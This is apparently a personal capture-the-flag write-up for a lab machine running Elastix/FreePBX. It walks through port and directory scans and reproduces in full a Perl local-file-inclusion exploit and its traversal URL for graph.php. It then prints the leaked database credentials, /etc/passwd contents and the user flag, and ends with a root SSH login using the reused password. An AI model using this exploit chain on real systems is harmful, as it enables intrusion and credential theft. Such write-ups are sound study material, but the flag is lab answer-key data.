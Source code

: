 #nmapscan 
```
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4445/tcp  open  upnotifyp
10000/tcp open  snet-sensor-mgmt
```
#enumeration 
I tried directory scan with ffuf as well as gobuster but gobuster gave error so I seraches about the error which was x509 invalid certificate and I found a vlog 
link:https://github.com/OJ/gobuster/issues/129
and finally ran gobuster with ``-k``
```
/help                 (Status: 301) [Size: 308] [--> https://10.10.10.7/help/]
/images               (Status: 301) [Size: 310] [--> https://10.10.10.7/images/]
/themes               (Status: 301) [Size: 310] [--> https://10.10.10.7/themes/]
/modules              (Status: 301) [Size: 311] [--> https://10.10.10.7/modules/]
/mail                 (Status: 301) [Size: 308] [--> https://10.10.10.7/mail/]   
/admin                (Status: 301) [Size: 309] [--> https://10.10.10.7/admin/]  
/static               (Status: 301) [Size: 310] [--> https://10.10.10.7/static/] 
/lang                 (Status: 301) [Size: 308] [--> https://10.10.10.7/lang/]   
/var                  (Status: 301) [Size: 307] [--> https://10.10.10.7/var/]    
/panel                (Status: 301) [Size: 309] [--> https://10.10.10.7/panel/]  
/libs                 (Status: 301) [Size: 308] [--> https://10.10.10.7/libs/]   
/recordings           (Status: 301) [Size: 314] [--> https://10.10.10.7/recordings/]
/configs              (Status: 301) [Size: 311] [--> https://10.10.10.7/configs/]
/vtigercrm  

```
After that I tried enumerating smtp and port 110 pop3 which was new to me
link:https://book.hacktricks.xyz/pentesting/pentesting-pop
but got nothing as such
then tried searcsploit and got a few exploits
```
Elastix - 'page' Cross-Site Scripting                                                                                       | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                                     | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                               | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                            | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                           | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                                          | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                      | php/webapps/18650.py
```

Now it doesn't seem to be a CSS vulnerability so i tried he lfi as source: https://www.securityfocus.com/bid/55078/info

```
Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input.

An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process. This may aid in further attacks.

Elastix 2.2.0 is vulnerable; other versions may also be affected. 

#!/usr/bin/perl -w

#------------------------------------------------------------------------------------# 
#Elastix is an Open Source Sofware to establish Unified Communications. 
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution.
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;) 
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {
 
print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";
 
}
else { 
print "\n[-] not successful\n";
        }    
```
tried the exploit given here as it also had the /vtigercrm/graph.php directory 
```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
and it worked thus elastrix is vulnerable to lfi
now in the amportal.conf file
i got information about FreePBx database 
```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```
tried to read the /etc/passwd file and got user:fanis and spamfilter
```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
```
so I tried to read the user flag and was successful xD
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/user.txt%00&module=Accounts&action
```

```
4f8ff273b3b19da8e433f3fa6a999139
Sorry! Attempt to access restricted file.
```
I also tried to open the ssh key for fanis but was not successful
I tried to open the admin directory and got the contents of a .conf file
```

      [phptype] => mysql
     [dbsyntax] => mysql
       username] => asteriskuser
        [password] => jEhdIekWmdjE
           [protocol] => tcp
        [hostspec] => localhost
               [port] => 
            [socket] => 
     [database] => asterisk
```
I tried to login to msql database but we didn't had permission to login
till now, I had
user fanis,spamfilter and admin and password for admin and  so I tried ssh into them
and i got error again but some ssh error yeah!!!
```
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
to fix this u have to use:
```ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 admin@10.10.10.7```
Just one of OpenSSH legacy issues
link:https://unix.stackexchange.com/questions/340844/how-to-enable-diffie-hellman-group1-sha1-key-exchange-on-debian-8-0/340853
now I tried to ssh into each and every user and one thing and Now seeing the /etc/shadow file found there was no admi user so admin here is the administration or the root
```ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7```
and the passwd was of admin
so logged into root shell and got the root flag



	
       